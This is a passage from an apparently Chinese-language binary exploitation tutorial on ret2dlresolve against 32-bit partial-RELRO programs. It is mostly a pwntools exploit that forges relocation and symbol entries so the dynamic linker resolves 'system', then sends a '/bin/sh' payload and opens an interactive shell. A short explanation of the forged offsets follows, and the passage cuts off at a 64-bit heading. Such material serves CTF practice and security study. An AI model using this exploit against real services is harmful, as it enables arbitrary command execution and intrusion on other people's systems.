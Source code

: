 ```python
fake_arg = fake_write_addr - rel_plt
r_offset = elf.got['write']

align = 0x10 - ((base_stage + 28 +8 - dynsym_base) %16)
fake_sym_addr = fake_write_addr+ 0x8 +align
fake_sym = flat(p32(fake_name),p32(0),p32(0),p32(0x12))
r_info = ((((fake_sym_addr - dynsym_base)//16) << 8) | 0x7)
fake_write = flat(p32(r_offset),p32(r_info))
fake_write_str = 'system\x00'

# payload1 = b'a'*4 + p32(plt_0) + p32(index_offset) + b'aaaa' + p32(1) + p32(base_stage+28 )+p32(len(b"/bin/sh\x00"))+ b"/bin/sh\x00"
# payload1.ljust(100,b"a")

# payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(1) + p32(base_stage+36 )+p32(len(b"/bin/sh\x00"))+ fake_write +b"/bin/sh\x00"
# payload2.ljust(100,b"a")

#payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(1) + p32(base_stage + 36+16+align )+p32(len(b"/bin/sh\x00"))
#payload2 += fake_write + b'a'*align + fake_sym + b"/bin/sh\x00"
#payload2 = payload2.ljust(100,b"a")

payload2 = b'a'*4 + p32(plt_0)+p32(fake_arg) +b'aaaa' + p32(base_stage + 28+align+16+ len('system\x00') )+ fake_write + b'a'*align + fake_sym + fake_write_str + b"/bin/sh\x00"
payload2 = payload2.ljust(100,b"a")

r.sendline(payload2)
r.interactive()
```

ret2dlresolve的漏洞利用在partial-RELRO上主要是通过对：

`reloc_offset`、`.rel.plt`中的`rel_info`、 `.dynsym`中的`st_name`的这三个地方的伪造

并且都是对其偏移值的伪造，比如说

```python
fake_name = fake_write_str_addr - strtab

r_info = ((((fake_sym_addr - dynsym_base)//16) << 8) | 0x7) 

fake_arg = fake_write_addr - rel_plt
```

# 64位

## partial RELRO

64位的partial RELRO与之前的所有操作都是有区别的
